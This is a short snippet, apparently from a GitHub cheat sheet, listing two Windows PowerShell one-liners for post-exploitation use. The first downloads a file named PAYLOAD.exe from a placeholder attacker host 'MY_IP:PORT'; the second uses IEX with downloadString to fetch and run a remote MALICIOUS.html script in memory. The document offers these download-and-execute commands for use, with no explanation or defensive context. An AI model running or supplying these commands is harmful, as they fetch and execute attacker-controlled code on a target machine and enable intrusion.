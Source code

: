 ## Windows Powershell Commands:

#### 1) 

    powershell "(New-Object System.Net.WebClient).downloadFile('http://MY_IP:PORT/PAYLOAD.exe','PAYLOAD.exe')"

#### 2) 

    powershell "IEX(New-Object Net.WebClient).downloadString('http://MY_IP:PORT/MALICIOUS.html')"
